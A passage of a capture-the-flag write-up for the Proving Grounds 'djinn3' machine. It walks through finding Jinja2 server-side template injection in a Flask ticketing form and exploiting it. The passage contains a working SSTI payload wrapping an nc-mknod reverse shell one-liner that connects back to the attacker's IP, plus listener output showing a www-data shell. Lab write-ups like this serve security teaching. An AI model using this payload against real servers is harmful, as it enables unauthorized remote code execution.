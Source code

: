 ```bash
>
```

We have the ability to open tickets

![test](../../../assets/images/ctfs/proving_grounds/djinn3/test.png)

Since this is a Flask Python server it is likely using Jinja to render the HTML.

Let's test for Jinja SSTI (Server Side Template Injection)

![test2](../../../assets/images/ctfs/proving_grounds/djinn3/test2.png)

![seven](../../../assets/images/ctfs/proving_grounds/djinn3/seven.png)

Next let's test if we get Jinja specific SSTI by trying to display the _id_ command

![test3](../../../assets/images/ctfs/proving_grounds/djinn3/test3.png)

![ssti](../../../assets/images/ctfs/proving_grounds/djinn3/ssti.png)

Our SSTI test worked so we can proceed with attempting to exploit.

# Exploitation

---

## Jinja2 SSTI

Use Revshellgen to generate a _nc-mknod_ reverseh shell one-liner

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

```

{{config.__class__.__init__.__globals__['os'].popen('rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l').read()}}

Send the payload to the target using the open ticket Jinja2 SSTI exploit

![test4](../../../assets/images/ctfs/proving_grounds/djinn3/test4.png)

Click the link of the created ticket and we get a reverse shell.

![link2](../../../assets/images/ctfs/proving_grounds/djinn3/link2.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.158.102] 45698
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
